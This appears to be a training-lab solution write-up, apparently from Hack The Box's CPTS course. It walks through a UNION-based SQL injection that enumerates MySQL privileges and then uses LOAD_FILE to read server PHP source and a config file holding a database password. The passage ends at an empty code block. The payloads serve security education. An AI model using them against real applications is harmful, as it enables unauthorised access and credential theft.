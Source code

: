 ## Question 1

### "We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password."

Students first need to know the current user that is executing the SQL queries in the backend server:

Code: sql

```sql
foo' UNION SELECT 1,user(),3,4-- -
```

![[HTB Solutions/CPTS/z. images/5ed1e259cf847d1b6f46044bb6882b6e_MD5.jpg]]

The user is `root`, which is an account that possess many privileges.

Students then will need to test if the current user has super admin privileges:

Code: sql

```sql
foo' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

![[HTB Solutions/CPTS/z. images/260296a94303871a3436eb56a09427ea_MD5.jpg]]

`Y` denotes `YES`, thus, the current user has super admin privileges. Students then will need to enumerate other privileges that the current user has to check whether they can read files or not:

Code: sql

```sql
foo' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

![[HTB Solutions/CPTS/z. images/b98bf72ae44b83660a5d71e3a9bec40b_MD5.jpg]]

The `FILE` privilege is listed for the current user, thus, the current user can read files.

Since students can read files, they first need to load the "search.php" file and view its source code:

Code: sql

```sql
foo' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

Students will notice that the "config.php" file is imported using the `include` command:

![[HTB Solutions/CPTS/z. images/879d0ad450ebf2b9e9dc90b362004970_MD5.jpg]]

Thus, at last, students need to load that file and find the flag as the value for `DB_PASSWORD`:

Code: sql
